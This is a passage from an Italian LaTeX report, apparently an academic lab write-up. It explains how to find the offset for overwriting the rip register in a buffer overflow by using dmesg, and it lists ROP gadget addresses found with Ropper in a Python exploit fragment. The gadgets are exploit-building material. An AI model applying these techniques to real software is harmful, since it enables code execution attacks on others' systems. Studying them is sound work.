 Per farlo sarà sufficiente provare input di differenti lunghezze controllando di volta in volta il contenuto del registro \textbf{rip} alla terminazione del processo. Inserendo il comando ``\texttt{\textbf{dmesg}}'' nel terminale dopo l'interruzione
del processo (se causato da un errore), verranno visualizzate le informazioni contenute nei registri in merito a quella precedente esecuzione. Con questa tecnica sarà possibile trovare il corretto offset dopo vari tentativi effettuati.
\begin{figure}[htbp]
      \centering
      \includegraphics[width=1\textwidth]{images/dmesg.png}
      \caption{Esempio di utilizzo del comando ``\textbf{dmesg}'' da terminale.}\label{fig:dmesg}
\end{figure}
\\Nell'esempio presentato sopra erano stati inseriti come input 138 caratteri ``A'', ed è facile notare grazie al comando ``\textbf{dmesg}'' come sia stato completamente sovrascritto il contenuto del registro \textbf{rbp} e successivamente anche quello di \textbf{rip} con 
2 caratteri ``A'', suggerendo che l'\textbf{offset} per andare a sovrascrivere tale registro fosse di 136 unità. Questo approccio è stato adottato poi per quasi la totalità dei test effettuati.\\
Una volta recuperato l'offset necessario per sovrascrivere il registro \textbf{rip}, l'obbiettivo era quello di creare la \textbf{ROP chain}, e per farlo è stato necessario cercare i gadgets nel binary file del codice.\\
La ricerca è stata effettuata con il tool \hyperref[subsec:Tools]{\textbf{Ropper}}, ed i \textbf{gadgets} utili per effettuare le operazioni richieste sono stati riportati nel file dell'exploit:
\begin{lstlisting}[language=Python, label=gadgets, caption={\textbf{gadgets} utili che sono stati recuperati per il primo attacco.}, style =Python]
where_to_write = int(hex(0x404050),0)     # sezione .data -> permesso scrittura 
pop_r12_r13 = p64(0x40134c)               # pop r12; pop r13; pop r14; pop r15; ret;
pop_r13 = p64(0x40134e)                   # pop r13; pop r14; pop r15; ret;
pop_rdi = p64(0x401353)                   # pop rdi; ret;
pop_rsi = p64(0x401351)                   # pop rsi; pop r15; ret;
pop_r15 = p64(0x401352)                   # pop r15; ret;
mov_rax_r13 = p64(0x4011b8)               # mov rax, r13; ret;
mov_mmr13_r12 = p64(0x40114a)             # mov qword ptr [r13], r12; ret;
add_mbr15_r14b = p64(0x40135c)            # add qword ptr [rax], rbp; ret;
xor_rdx = p64(0x4011e8)                   # xor edx, edx;
syscall =  p64(0x4012ee)                  # syscall gadget      
\end{lstlisting}

